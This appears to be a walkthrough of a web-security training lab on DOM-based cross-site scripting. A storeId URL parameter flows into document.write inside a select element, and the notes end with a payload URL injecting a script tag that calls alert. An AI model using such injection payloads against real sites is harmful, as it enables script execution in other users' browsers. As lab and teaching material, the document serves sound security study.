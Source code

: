 # DOM XSS in document.write sink using source location.search inside a select element

> ************************Instructions************************
> 
> 
> This lab contains a [DOM-based cross-site scripting](../../Cross-site%20Scripting%20(XSS)/Sub_Pages/DOM-based%20XSS.md) vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element.
> 
> To solve this lab, perform a [cross-site scripting](ht../../Cross-site%20Scripting%20(XSS)/Cross-site%20scripting%20(XSS).md) attack that breaks out of the select element and calls the `alert` function.
> 

Access the Home page:

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20inside%20a%20select%20element%20images/Untitled.png)

Click ************View details************ from any product → Scroll down to the end of page and click **********************Check stock**********************

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20inside%20a%20select%20element%20images/Untitled%201.png)

Inspect the page and observe that the application is using this script to handle the data:

```html
<form id="stockCheckForm" action="/product/stock" method="POST">
	<input required type="hidden" name="productId" value="2">
	<script>
		var stores = ["London","Paris","Milan"];
		var store = (new URLSearchParams(window.location.search)).get('storeId');
		document.write('<select name="storeId">');
		if(store) {
		document.write('<option selected>'+store+'</option>');
		}
		for(var i=0;i<stores.length;i++) {
			if(stores[i] === store) {
				continue;
			}
			document.write('<option>'+stores[i]+'</option>');
		}
		document.write('</select>');
	</script>
	<button type="submit" class="button">Check stock</button>
</form>
```

Open ******************************Developer Tools****************************** > Tab **************Console**************:

```jsx
> window.location.search
<- '?productId=2'
```

The URL:

```
https://0a85006a0475bd2581bcd66500f400af.web-security-academy.net/product?productId=2
```

The script above extract the `storeId` parameter from the URL (`location.search`). It then create a new option in the `select` statement for the stock using `document.write`

For testing this, click on the URL → append the `storeId` parameter at the end:

```
https://0a85006a0475bd2581bcd66500f400af.web-security-academy.net/product?productId=2&storeId=thisisDOM-bassedXSS
```

Verify that the new `storeId` value has been added into the `select` menu:

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20inside%20a%20select%20element%20images/Untitled%202.png)

To exploit this parameter (and also the ********************JavaScript********************), replace the value of the `storeId` parameter to a `script` element which calls the `alert()` function:

```
https://0a85006a0475bd2581bcd66500f400af.web-security-academy.net/product?productId=2&storeId=<script>alert(1)</script>
```

When you press `Enter`, the application would parse the value `<script>alert(1)</script>` into the `document.write` sink and then execute the `script` element:

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20inside%20a%20select%20element%20images/Untitled%203.png)